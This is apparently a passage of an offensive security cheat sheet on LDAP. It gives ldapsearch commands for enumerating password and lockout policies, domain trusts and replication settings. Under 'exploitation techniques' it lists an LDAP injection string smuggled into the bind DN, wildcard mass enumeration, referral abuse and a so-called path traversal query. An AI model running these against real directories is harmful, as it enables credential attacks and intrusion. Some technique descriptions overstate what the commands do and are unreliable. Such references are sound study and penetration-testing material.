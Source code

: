 #### 9.2 Detecting LDAP Enforced Policies
- **Enumerate Password Policies**: Queries the LDAP directory for enforced password policies such as minimum password length, lockout threshold, and password history length. This can help in crafting password attacks.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "CN=Default Domain Policy,CN=Policies,CN=System,DC=domain,DC=com" "(objectClass=domain)" minPwdLength,lockoutThreshold,pwdHistoryLength
  ```

#### 9.3 Mapping LDAP Forest and Domain Information
- **Forest and Domain Enumeration**: Enumerates cross-references within the LDAP directory to map out forest and domain structures, including trust relationships.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "CN=Partitions,CN=Configuration,DC=domain,DC=com" "(objectClass=crossRef)" nCName,trustParent
  ```

#### 9.4 Enumerating LDAP Replication Settings
- **Querying Replication Settings**: Retrieves replication settings for domain controllers within the directory, which could provide insights into potential replication-based attacks or persistence techniques.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "CN=Sites,CN=Configuration,DC=domain,DC=com" "(objectClass=nTDSDSA)" options,options
  ```

## 10. LDAP Exploitation Techniques (Advanced and Unique)

#### 10.1 Injecting Malicious LDAP Queries
- **LDAP Query Injection**: Exploits weakly validated LDAP queries by injecting a crafted query that modifies the search behavior to include unintended objects or users.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(&(objectClass=*))" -D "CN=admin)(|(cn=*))#" -w '<password>'
  ```

#### 10.2 LDAP Wildcard Attacks
- **Wildcard Query Attack**: Uses wildcards in LDAP queries to return all objects that match a specific attribute pattern, useful for mass enumeration or broad searches.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(cn=*)"
  ```

#### 10.3 Abusing LDAP Referrals for Data Exfiltration
- **Exploit LDAP Referrals**: Enumerates LDAP referrals, which can be abused to redirect LDAP queries to external servers for data exfiltration or relay attacks.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(objectClass=referral)" referral
  ```

#### 10.4 LDAP Path Traversal Exploits
- **Path Traversal in LDAP**: Attempts to bypass security descriptors by exploiting directory path traversal vulnerabilities, potentially gaining unauthorized access to sensitive objects.
  ```bash
  ldapsearch -x -H ldap://<target_ip> -b "DC=domain,DC=com" "(&(objectClass=*)(!(nTSecurityDescriptor=*)))"
  ```
